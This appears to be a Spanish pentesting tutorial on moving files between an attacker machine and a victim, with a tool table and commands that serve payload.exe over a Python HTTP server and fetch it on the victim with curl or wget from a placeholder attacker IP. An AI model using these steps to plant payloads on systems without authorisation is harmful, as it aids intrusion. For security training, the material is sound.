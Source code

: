 | Herramienta                 | ¿Para qué sirve?                                   | Protocolo |
| --------------------------- | -------------------------------------------------- | --------- |
| **Python HTTP server**      | Servir archivos desde tu máquina                   | HTTP      |
| **`curl` o `wget`**         | Descargar archivos en la máquina remota            | HTTP      |
| **Netcat**                  | Transferir binarios, scripts o cualquier cosa      | TCP       |
| **SCP / SFTP**              | Transferencia segura entre máquinas (requiere SSH) | SSH       |
| **Impacket (smbserver.py)** | Compartir archivos vía SMB (Windows)               | SMB       |
| **FTP (vsftpd)**            | Subir o bajar archivos en red                      | FTP       |

---

### 📦 Parte 1: Python HTTP Server + curl/wget (más común)

#### ✅ Instalación

Python ya viene instalado en la mayoría de sistemas. Para iniciar un servidor HTTP:

```bash
# Si usas Python 3:
python3 -m http.server 8000
```

Esto sirve todos los archivos del directorio actual a través de `http://<tu-ip>:8000`

---

#### 💻 Ejemplo completo

##### 🖥️ En tu máquina (Kali o atacante):

Supón que tienes un archivo llamado `payload.exe` que quieres enviar:

```bash
cd /ruta/del/archivo
python3 -m http.server 8000
```

##### 🧑‍💻 En la máquina víctima (Linux o Windows con curl o wget):

Descargar el archivo usando `curl`:

```bash
curl http://<IP-del-atacante>:8000/payload.exe -o payload.exe
```

O usando `wget`:

```bash
wget http://<IP-del-atacante>:8000/payload.exe
```

---
